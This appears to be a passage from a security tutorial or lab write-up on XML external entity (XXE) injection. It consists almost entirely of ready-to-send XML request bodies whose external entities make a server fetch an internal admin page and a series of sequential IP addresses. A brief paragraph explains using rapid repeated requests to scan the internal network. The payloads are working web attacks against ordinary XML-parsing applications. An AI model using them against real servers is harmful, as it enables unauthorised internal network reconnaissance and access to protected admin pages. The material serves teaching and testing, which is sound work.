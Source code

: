 ```xml
Content-Type: application/xml;charset=UTF-8

<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<!DOCTYPE testingxxe [<!ENTITY xxe SYSTEM "http://34.229.92.127:8000/admin.php" >]> 
<root>
 <root>
  <firstName>&xxe;</firstName>
  <lastName/>
  <country>United States</country>
  <city>ddd</city>
  <postalCode>ddd</postalCode>
 </root>
</root>
```

The biggest drawback is that it is really hard to get to know the internal network but if we know the internal ip adress of the webserver we can do a sort of "network scan" by firing requests in rapid succession and seeing which resolve and which fail.

```xml
Content-Type: application/xml;charset=UTF-8

<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<!DOCTYPE testingxxe [<!ENTITY xxe SYSTEM "http://34.229.92.127" >]> 
<root>
 <root>
  <firstName>&xxe;</firstName>
  <lastName/>
  <country>United States</country>
  <city>ddd</city>
  <postalCode>ddd</postalCode>
 </root>
</root>

Content-Type: application/xml;charset=UTF-8

<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<!DOCTYPE testingxxe [<!ENTITY xxe SYSTEM "http://34.229.92.126" >]> 
<root>
 <root>
  <firstName>&xxe;</firstName>
  <lastName/>
  <country>United States</country>
  <city>ddd</city>
  <postalCode>ddd</postalCode>
 </root>
</root>

<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<!DOCTYPE testingxxe [<!ENTITY xxe SYSTEM "http://34.229.92.125" >]> 
<root>
 <root>
  <firstName>&xxe;</firstName>
  <lastName/>
  <country>United States</country>
  <city>ddd</city>
  <postalCode>ddd</postalCode>
 </root>
</root>
```
